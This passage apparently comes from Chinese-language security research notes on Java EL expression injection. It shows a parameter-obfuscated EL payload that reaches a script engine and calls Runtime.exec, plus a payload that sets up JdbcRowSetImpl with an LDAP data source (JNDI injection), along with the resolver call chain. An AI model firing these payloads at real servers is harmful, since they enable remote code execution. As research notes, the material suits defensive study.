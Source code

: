 这种调用方式让方法以字符串的形式出现，可以把用调用的参数通过外部参数传入，实现更隐蔽的EL执行

> `${""[param.a]()[param.b](param.c)[param.d]()[param.e](param.f)[param.g](param.h)}`

> a=getClass&b=forName&c=javax.script.ScriptEngineManager&d=newInstance&e=getEngineByName&f=js&g=eval&h=java.lang.Runtime.getRuntime().exec('calc')

## Getter & Setter

EL表达式不支持`Object a = xxx`来存储临时局部变量。可以利用内置对象来存储。

并且点号属性取值相当于执行对象的getter方法，等号属性赋值则等同于执行setter方法

> ${
>
> pageContext.setAttribute("obj", "".getClass().forName("com.sun.rowset.JdbcRowSetImpl").newInstance());
>
> pageContext.getAttribute("obj").dataSourceName="ldap://127.0.0.1:8099/a";
>
> pageContext.getAttribute("obj").autoCommit=true
>
> }

> `org.apache.el.parser.AstAssign#getValue`
>
>   -> `org.apache.el.parser.AstValue#getValue`
>
> ​    -> `org.apache.el.parser.AstValue#setValue`
>
> ​      -> `javax.el.CompositeELResolver#setValue`
>
> ​	    -> `javax.el.BeanELResolver#setValue`

![image-20230831165101321](./../.gitbook/assets/image-20230831165101321.png)

# Niche Exploitation
